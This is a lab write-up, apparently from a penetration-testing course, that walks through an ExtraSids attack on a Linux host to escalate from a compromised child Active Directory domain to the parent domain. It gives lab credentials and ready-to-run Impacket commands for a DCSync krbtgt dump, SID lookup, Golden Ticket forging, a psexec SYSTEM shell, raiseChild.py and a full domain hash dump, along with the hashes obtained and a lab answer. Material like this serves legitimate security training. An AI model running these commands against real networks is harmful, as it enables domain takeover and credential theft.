

<div align='center'>

# **Lab 23: Attacking Domain Trusts - Child -> Parent Trusts - from Linux** 

</div>

Note: the `htb-student_adm` account with password `HTB_@cademy_stdnt_admin!` is on the LOGISTICS domain controller, which is a child domain of the INLANEFREIGHT domain.

This attack allows for the compromise of a parent domain once the child domain has been compromised

We'll need to gather the same bits of information:

- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain
- The SID of the Enterprise Admins group of the root domain

**Performing DCSync with secretsdump.py**

```zsh
secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
```


**Performing SID Brute Forcing using lookupsid.py**

The child domain SID

```zsh
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"
```


The Enterprise Admins group SID

```zsh
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep "Domain SID"
```


We have gathered the following data points:

- The KRBTGT hash for the child domain: `9d765b482771505cbe97411065964d5f`
- The SID for the child domain: `S-1-5-21-2806153819-209893948-922872689`
- The name of a target user in the child domain (does not need to exist to create our Golden Ticket!): We'll choose a fake user: `hacker`
- The FQDN of the child domain: L`OGISTICS.INLANEFREIGHT.LOCAL`
- The SID of the Enterprise Admins group of the root domain: `S-1-5-21-3842939050-3880317879-2865463114-519`

**Constructing a Golden Ticket using ticketer.py**

```zsh
ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker
```



The ticket will be saved down to our system as a credential cache (ccache) file, which is a file used to hold Kerberos credentials

**Setting the KRB5CCNAME Environment Variable**

Setting the KRB5CCNAME environment variable tells the system to use this file for Kerberos authentication attempts

```zsh
export KRB5CCNAME=hacker.ccache 
```

**Getting a SYSTEM shell using Impacket's psexec.py**

```zsh
psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5
```


**Performing the Attack with raiseChild.py**

```zsh
raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm
```


**Question**: Perform the ExtraSids attack to compromise the parent domain from the Linux attack host. After compromising the parent domain obtain the NTLM hash for the Domain Admin user bross. Submit this hash as your answer.

Get the administator hash in the output of the `raiseChild.py` command: `aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf`

```zsh
secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/administrator@172.16.5.5 -hashes aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf
cat inlanefreight_hashes.ntds | grep bross
```


